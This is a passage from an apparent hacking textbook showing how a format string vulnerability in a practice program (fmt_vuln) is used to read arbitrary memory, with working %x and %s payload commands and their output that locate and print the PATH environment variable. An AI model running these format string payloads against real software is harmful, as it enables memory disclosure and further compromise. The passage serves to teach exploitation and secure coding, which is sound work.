 # *__Reading from Arbitrary Memory Addresses__*

The __%s__ format parameter can be used to read from arbitrary memory addresses. Since it’s possible to read the data of the original format string, part of the original format string can be used to supply an address to the __%s__ format parameter, as shown here:

<pre style="color: white;">
reader@hacking:~/booksrc $ ./fmt_vuln AAAA%08x.%08x.%08x.%08x
The right way to print user-controlled input:
AAAA%08x.%08x.%08x.%08x
The wrong way to print user-controlled input:
AAAAbffff3d0.b7fe75fc.00000000.41414141
[*] test_val @ 0x08049794 = -72 0xffffffb8
reader@hacking:~/booksrc $
</pre>

The four bytes of _0x41_ indicate that the fourth format parameter is reading from the beginning of the format string to get its data. If the fourth format parameter is __%s__ instead of __%x_, the format function will attempt to print the string located at _0x41414141_. This will cause the program to crash in a segmentation fault, since this isn’t a valid address. But if a valid memory address is used, this process could be used to read a string found at that memory address.

<pre style="color: white;">
reader@hacking:~/booksrc $ env | grep PATH
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
reader@hacking:~/booksrc $ ./getenvaddr PATH ./fmt_vuln
PATH will be at 0xbffffdd7
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\xd7\xfd\xff\xbf")%08x.%08x.%08x.%s
The right way to print user-controlled input:
????%08x.%08x.%08x.%s
The wrong way to print user-controlled input:
????bffff3d0.b7fe75fc.00000000./usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/
usr/games
[*] test_val @ 0x08049794 = -72 0xffffffb8
reader@hacking:~/booksrc $
</pre>

Here the _getenvaddr_ program is used to get the address for the environment variable _PATH_. Since the program name _fmt_vuln_ is two bytes less than _getenvaddr_, four is added to the address, and the bytes are reversed due to the byte ordering. The fourth format parameter of _%s_ reads from the beginning of the format string, thinking it’s the address that was passed as a function argument. Since this address is the address of the _PATH_ environment variable, it is printed as if a pointer to the environment variable were passed to _printf()_.

Now that the distance between the end of the stack frame and the beginning of the format string memory is known, the field-width arguments can be omitted in the _%x_ format parameters. These format parameters are only needed to step through memory. Using this technique, any memory address can be examined as a string.